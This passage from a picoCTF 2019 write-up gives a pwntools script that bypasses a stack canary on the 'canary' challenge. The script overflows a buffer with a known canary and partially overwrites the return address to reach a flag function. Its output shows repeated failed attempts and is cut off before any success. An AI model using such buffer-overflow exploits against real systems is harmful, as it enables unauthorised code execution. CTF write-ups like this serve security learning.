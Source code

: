 Now we can code our exploit with our known canary:

```python
#!/usr/bin/env python

from pwn import *

s = ssh(host = '2019shell1.picoctf.com', user='samson', password='REDACTED')
s.set_working_directory('/problems/canary_3/')
canary = "57Gh"
address_display_flag = 0x565cf7ed
while True:
    p = s.process('./vuln')
    p.sendlineafter('> ', '54') # Size of payload
    payload = "A"*32 + canary + "A"*16 + "\xed\x07"
    p.sendlineafter('> ', payload)
    out = p.recvall()
    print(out)
    if "pico" in str(out):
        print(out)
        break
    p.close()
```

```
samson@pico-2019-shell1:/problems/canary_3$ python ~/p2.py 
[+] Connecting to 2019shell1.picoctf.com on port 22: Done
[!] Couldn't check security settings on '2019shell1.picoctf.com'
[*] Working directory: '/problems/canary_3/'
[+] Starting remote process './vuln' on 2019shell1.picoctf.com: pid 1174334
[+] Receiving all data: Done (28B)
[*] Stopped remote process 'vuln' on 2019shell1.picoctf.com (pid 1174334)
Ok... Now Where's the Flag?

[+] Starting remote process './vuln' on 2019shell1.picoctf.com: pid 1174341
[+] Receiving all data: Done (28B)
[*] Stopped remote process 'vuln' on 2019shell1.picoctf.com (pid 1174341)
Ok... Now Where's the Flag?

[+] Starting remote process './vuln' on 2019shell1.picoctf.com: pid 1174348
[+] Receiving all data: Done (28B)
[*] Stopped remote process 'vuln' on 2019shell1.picoctf.com (pid 1174348)
Ok... Now Where's the Flag?

[+] Starting remote process './vuln' on 2019shell1.picoctf.com: pid 1174355
[+] Receiving all data: Done (28B)
[*] Stopped remote process 'vuln' on 2019shell1.picoctf.com (pid 1174355)
Ok... Now Where's the Flag?

[+] Starting remote process './vuln' on 2019shell1.picoctf.com: pid 1174362
[+] Receiving all data: Done (28B)
[*] Stopped remote process 'vuln' on 2019shell1.picoctf.com (pid 1174362)
Ok... Now Where's the Flag?

[+] Starting remote process './vuln' on 2019shell1.picoctf.com: pid 1174369
[+] Receiving all data: Done (28B)
[*] Stopped remote process 'vuln' on 2019shell1.picoctf.com (pid 1174369)
Ok... Now Where's the Flag?

[+] Starting remote process './vuln' on 2019shell1.picoctf.com: pid 1174376
[+] Receiving all data: Done (28B)
[*] Stopped remote process 'vuln' on 2019shell1.picoctf.com (pid 1174376)
Ok... Now Where's the Flag?

[+] Starting remote process './vuln' on 2019shell1.picoctf.com: pid 1174384
```